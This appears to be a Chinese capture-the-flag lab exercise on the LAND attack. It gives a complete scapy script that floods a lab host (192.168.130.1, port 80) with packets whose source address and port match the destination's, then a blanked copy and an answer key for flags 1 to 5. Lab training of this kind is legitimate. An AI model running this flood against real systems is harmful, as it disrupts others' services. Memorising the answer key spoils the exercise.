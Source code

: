  

6. ##### 在虚拟机操作系统：BT5下执行land.py文件，对靶机服务器进行LAND网络渗透试，渗透测试能够实现：在攻击机端或在靶机端的协议分析工具中，能够发现靶机遭受到了LAND渗透测试；并观察靶机端收到的第1500个LAND数据包，该数据包在攻击机中的命令行窗口的显示状态信息的第三行中的唯一一个数字作为Flag值提交；

![img](file:///C:\Users\18470\AppData\Local\Temp\ksohtml25024\wps1.jpg) 



```python
from scapy.all import *
def tcpconn(packet):
    sendp(packet)
eth = Ether()
ip = IP()
ip.dst='192.168.130.1'
tcp = TCP()
tcp.dport = 80

m = 0
while True:
    ip.src = ip.dst
    tcp.sport = tcp.dport
    packet = eth/ip/tcp
    tcpconn(packet)
    print('Sending Packet To %s'%ip.dst + 'Port IS %s'%tcp.dport)
    m = m+1
    print(m)
```

```python
from scapy.all import *
def tcpconn(packet):
    FLAG1
eth = Ether()
ip = IP()
ip.dst='192.168.130.1'
tcp = TCP()
tcp.dport = 80

m = 0
while True:
    ip.src = FLAG2
    tcp.sport = FLAG3
    packet = FLAG4
    FLAG5
    print('Sending Packet To %s'%ip.dst + 'Port IS %s'%tcp.dport)
    m = m+1
    print(m)
```

> Flag1 = sendp(packet)
>
> Flag2 = ip.dst
>
> Flag3 = tcp.dport
>
> Flag4 = eth/ip/tcp
>
> Flag5 = tcpconn(packet)

 